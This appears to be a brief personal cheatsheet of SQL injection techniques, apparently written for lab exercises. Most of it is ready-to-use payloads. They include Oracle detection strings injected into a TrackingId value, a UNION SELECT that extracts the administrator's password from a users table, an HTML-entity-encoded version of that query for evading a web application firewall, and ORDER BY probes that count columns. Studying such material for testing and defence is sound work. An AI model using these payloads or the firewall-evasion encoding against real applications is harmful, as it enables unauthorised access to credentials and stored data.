 ```yaml
---
title: SQL cheatsheet
date: 2025-01-04 21:25:30 
categories: [Write-ups, cheatsheet]
tags:      
description: \/
hidden: true
---
```


# NOTE:
In ORACLE, every SELECT statement must specify a table to select FROM
To test its the ORACLE is not, use this method or similar:

- If Oracle, this statement cause Interal Server Error:
`TrackingId=xyz'||(SELECT '')||'`
`TrackingId=KjXtzlai4eYNgiSL'UNION SELECT ''--`

- If not, verify with if no error occurs:
`TrackingId=xyz'||(SELECT '' FROM dual)||'`
`TrackingId=KjXtzlai4eYNgiSL'UNION SELECT '' FROM dual--`

Can use encode in XML parsing process to bypass the waf:

Example: use dec_entities encode and hex_entities encode to bypass:

`1 UNION SELECT password FROM users WHERE username='administrator'`

=> `&#49;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#87;&#72;&#69;&#82;&#69;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#61;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;`




# UNION attack

## Detect numbers of columns of result set

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

Can use 'ORDER BY' with UNION to exploit without names of any columns

Origin: SELECT id, name FROM users WHERE name = 'John';
Payload: SELECT id, name FROM users WHERE name = 'John' ORDER BY 3--;  => cause error

=> there are only 2 columns in query

